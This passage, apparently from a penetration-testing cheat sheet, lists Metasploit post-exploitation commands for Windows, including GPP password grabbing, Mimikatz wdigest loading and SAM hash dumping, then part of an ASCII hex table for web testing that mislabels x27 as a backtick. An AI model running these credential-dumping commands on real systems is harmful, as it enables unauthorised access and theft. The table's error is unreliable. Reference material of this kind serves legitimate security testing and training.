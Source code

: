 ### Post Exploit Windows Metasploit Modules

Windows Metasploit Modules for privilege escalation.

| Command | Description |
| --- | --- |
| run post/windows/gather/win_privs | Metasploit show privileges of current user |
| use post/windows/gather/credentials/gpp | Metasploit grab GPP saved passwords |
| load mimikatz -> wdigest | Metasplit load Mimikatz |
| run post/windows/gather/local_admin_search_enum | Idenitfy other machines that the supplied domain user has administrative access to |
| run post/windows/gather/smart_hashdump | Automated dumping of sam file, tries to esc privileges etc |

## **ASCII Table Cheat Sheet**

Useful for Web Application Penetration Testing, or if you get stranded on Mars and need to communicate with NASA.

| ASCII | Character |
| --- | --- |
| x00 | Null Byte |
| x08 | BS  |
| x09 | TAB |
| x0a | LF  |
| x0d | CR  |
| x1b | ESC |
| x20 | SPC |
| x21 | !   |
| x22 | "   |
| x23 | #   |
| x24 | $   |
| x25 | %   |
| x26 | &   |
| x27 | `   |
| x28 | (   |
| x29 | )   |
| x2a | *   |
| x2b | +   |
| x2c | ,   |
| x2d | -   |
| x2e | .   |
| x2f | /   |
| x30 | 0   |
| x31 | 1   |